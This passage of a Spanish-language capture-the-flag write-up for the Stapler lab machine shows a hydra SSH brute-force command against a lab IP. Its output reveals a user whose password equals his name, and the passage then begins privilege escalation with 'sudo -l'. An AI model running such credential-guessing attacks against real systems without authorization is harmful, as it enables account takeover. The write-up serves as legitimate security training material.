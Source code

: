 ```shell
hydra -L all_users.txt -P all_users.txt ssh://10.10.0.9
```
```output
-- output --

[DATA] max 16 tasks per 1 server, overall 16 tasks, 1600 login tries (l:40/p:40), ~100 tries per task
[DATA] attacking ssh://10.10.0.9:22/
[22][ssh] host: 10.10.0.9   login: SHayslett   password: SHayslett
```


Y efectivamente **SHayslett** a cometido el error de poner su nombre como contraseña.

<br>

![Stapler/Capturas/Pasted image 20241023201729.png](https://github.com/tryto-deeb/CTF-WriteUps/blob/master/Stapler/Capturas/Pasted%20image%2020241023201729.png)


<br>
<br>
<br>


----



# Escalada de Privilegios


Comprobamos permisos de superusuario

```shell
sudo -l
```
```output
-- output --

Sorry, user SHayslett may not run sudo on stapler
```
<br>
